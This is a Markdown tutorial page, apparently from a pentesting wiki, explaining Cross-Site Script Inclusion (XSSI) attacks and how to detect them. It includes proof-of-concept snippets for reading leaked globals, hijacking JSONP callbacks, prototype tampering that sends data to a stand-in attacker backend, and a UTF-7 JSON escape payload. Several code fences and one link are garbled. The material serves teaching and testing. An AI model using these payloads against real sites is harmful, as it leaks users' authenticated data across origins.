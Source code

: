 # XSSI (Cross-Site Script Inclusion)


## Basic Information

**Cross-Site Script Inclusion (XSSI)** is a vulnerability that arises from the nature of the `script` tag in HTML. Unlike most resources, which are subject to the **Same-Origin Policy (SOP)**, scripts can be included from different domains. This behavior is intended to facilitate the use of libraries and other resources hosted on different servers but also introduces a potential security risk.

### Key Characteristics of **XSSI**:

- **Bypass of SOP**: Scripts are exempt from the **Same-Origin Policy**, allowing them to be included across domains.
- **Data Exposure**: An attacker can exploit this behavior to read data loaded via the `script` tag.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** is particularly relevant for dynamic JavaScript or **JSON with Padding (JSONP)**. These technologies often use "ambient-authority" information (like cookies) for authentication. When a script request is made to a different host, these credentials (e.g., cookies) are automatically included in the request.
- **Authentication Token Leakage**: If an attacker can trick a user's browser into requesting a script from a server they control, they might be able to access sensitive information contained in these requests.

### Types

1. **Static JavaScript** - This represents the conventional form of XSSI.
2. **Static JavaScript with Authentication** - This type is distinct because it requires authentication to access.
3. **Dynamic JavaScript** - Involves JavaScript that dynamically generates content.
4. **Non-JavaScript** - Refers to vulnerabilities that do not involve JavaScript directly.

**The following information is a sumary of [[https://www.scip.ch/en/?labs.20160414|https://www.scip.ch/en/?labs.20160414]]**. Check it for further details.

### Regular XSSI

In this approach, private information is embedded within a globally accessible JavaScript file. Attackers can identify these files using methods like file reading, keyword searches, or regular expressions. Once located, the script containing private information can be included in malicious content, allowing unauthorized access to sensitive data. An example exploitation technique is shown below:

```html

<script>
  alert(JSON.stringify(confidential_keys[0]))
</script>
```
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI

These types of XSSI attacks involve confidential information being dynamically added to the script in response to a user's request. Detection can be performed by sending requests with and without cookies and comparing the responses. If the information differs, it may indicate the presence of confidential information. This process can be automated using tools like the [[https://github.com/luh2/DetectDynamicJS|DetectDynamicJS]] Burp extension.

If confidential data is stored in a global variable, it can be exploited using similar methods to those used in Regular XSSI. However, if the confidential data is included in a JSONP response, attackers can hijack the callback function to retrieve the information. This can be done by either manipulating global objects or setting up a function to be executed by the JSONP response, as demonstrated below:

```html
<script>
  var angular = function () {
    return 1
  }
  angular.callbacks = function () {
    return 1
  }
  angular.callbacks._7 = function (leaked) {
    alert(JSON.stringify(leaked))
  }
</script>

```
```
```html
<script>
  leak = function (leaked) {
    alert(JSON.stringify(leaked))
  }
</script>

```
```
For variables not residing in the global namespace, _prototype tampering_ can sometimes be exploited. This technique leverages JavaScript's design, where code interpretation involves traversing the prototype chain to locate the called property. By overriding certain functions, such as `Array`'s `slice`, attackers can access and leak non-global variables:

```javascript
Array.prototype.slice = function () {
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this)
}
```
```
Further details on attack vectors can be found in the work of Security Researcher [[https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/|Sebastian Lekies]].

### Non-Script-XSSI

Takeshi Terada's research introduces another form of XSSI, where Non-Script files, such as CSV, are leaked cross-origin by being included as sources in a `script` tag. Historical instances of XSSI, such as Jeremiah Grossman’s 2006 attack to read a complete Google address book and Joe Walker’s 2007 JSON data leak, highlight the severity of these threats. Additionally, Gareth Heyes describes an attack variant involving UTF-7 encoded JSON to escape the JSON format and execute scripts, effective in certain browsers:

```javascript
;[
  {
    friend: "luke",
    email:
      "+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
  },
]
```
```
```html

```
```



